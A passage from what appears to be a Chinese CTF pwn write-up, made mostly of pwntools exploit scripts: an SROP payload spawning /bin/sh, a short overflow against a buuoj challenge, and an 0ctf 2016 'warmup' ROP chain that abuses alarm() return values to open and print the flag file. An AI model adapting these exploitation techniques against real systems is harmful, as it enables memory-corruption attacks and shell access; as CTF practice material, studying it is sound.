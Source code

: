   ```python
  wdnmd.rdi = 0x601000
  wdnmd.rsi = 0
  wdnmd.rdx = 0
  wdnmd.rax = 59
  wdnmd.rsp = 0x601050
  wdnmd.rip = syscall_ret
  payload = '/bin/sh'.ljust(0x50,'\x00')+sigreturn+str(wdnmd)
  r.sendline(payload)
  
  r.interactive()
  ```

* ### ciscn_2019_n_8

  ```
  from pwn import *
  r = remote('pwn.buuoj.cn', 20144)
  payload = p32(17)*14
  r.sendline(payload)
  r.interactive()
  ```

* ### 0ctf 2016 warmup 

  alarm返回值

  如果调用此alarm()前，进程已经设置了闹钟时间，则返回上一个闹钟时间的剩余时间，否则返回0 

  程序执行时间很短，第一次调用alarm(5)，然后再次调用alarm，返回5，得到open的系统调用号，然后跳到0x8048122执行系统调用打开flag

  先找个地方把'/home/warmup/flag.txt\x00'写进去，然后两次alarm得到系统调用号，打开flag

  调用read把flag写到0x8049200然后在write到标准输出

  ```python
  from pwn import *
  #r = remote('pwn.buuoj.cn', 20000)
  r = process('warmup')
  flag = '/home/warmup/flag.txt\x00'
  fuck_addr = 0x8049200
  read = 0x804811d
  write = 0x8048135
  alarm = 0x804810d
  main = 0x0804815a
  fuck_open = 0x8048122
  padding = 'a'*0x20
  payload = padding+p32(read)+p32(main)+p32(0)+p32(fuck_addr)+p32(len(flag))
  payload += flag
  payload += padding+p32(alarm)+p32(main)+p32(5)+p32(0)+p32(0)
  payload += padding+p32(alarm)+p32(fuck_open)+p32(main)+p32(fuck_addr)+p32(0)
  payload += padding+p32(read)+p32(main)+p32(3)+p32(fuck_addr)+p32(100)
  payload += padding+p32(write)+p32(0)+p32(1)+p32(fuck_addr)+p32(100)
  r.sendline(payload)
  r.interactive()
  ```
